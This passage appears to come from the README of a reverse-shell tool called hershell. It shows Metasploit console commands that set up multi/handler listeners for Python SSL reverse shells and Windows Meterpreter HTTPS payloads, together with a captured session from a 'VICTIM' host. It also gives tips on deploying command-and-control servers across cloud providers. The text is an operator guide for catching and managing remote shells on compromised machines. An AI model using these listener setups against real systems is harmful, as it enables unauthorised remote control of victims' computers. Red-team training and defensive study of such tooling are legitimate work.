 
### Multi hershell session handling from Metasploit

Catching sessions with `ncat` is nice and easy, but it does not handle *multi sessions*. We can use the Metasploit `python/shell_reverse_tcp_ssl` payload.  

Use `sessions` to interact with your targets from inside the `msfconsole`  prompt.

Let's set Metasploit up to receive both our stages in a single shot. Starting from the top:

```bash
msf5 > wget http://DOCKER-IP:8000/server.pem
msf5 > use exploit/multi/handler
msf5 > set payload python/shell_reverse_tcp_ssl
msf5 > set HandlerSSLCert ./server.pem
msf5 > set lhost DOCKER-IP
msf5 > set lport 8088
msf5 > exploit -j
# Our first hershell listener is now running as a job in the background

msf5 > set payload windows/x64/meterpreter/reverse_https
msf5 > set lport 8443
msf5 > exploit -j
msf5 > sessions -l
```

Launch hershell as you would and...

```bash
[*] Command shell session 1 opened (DOCKER-IP:8088 -> VICTIM:39370) at 2018-10-04 02:26:32 +0000
```


## More tricks

### Using docker-machine

You can use [docker-machine](https://docs.docker.com/machine/) to seamlessly deploy your C2 instances across different cloud providers.

### Make a rc file

Once you have a working configuration in your Metasploit environment, you use the `makerc hershell.rc` to generate a config file. From there you can `cat` it from the prompt or push it elsewhere.

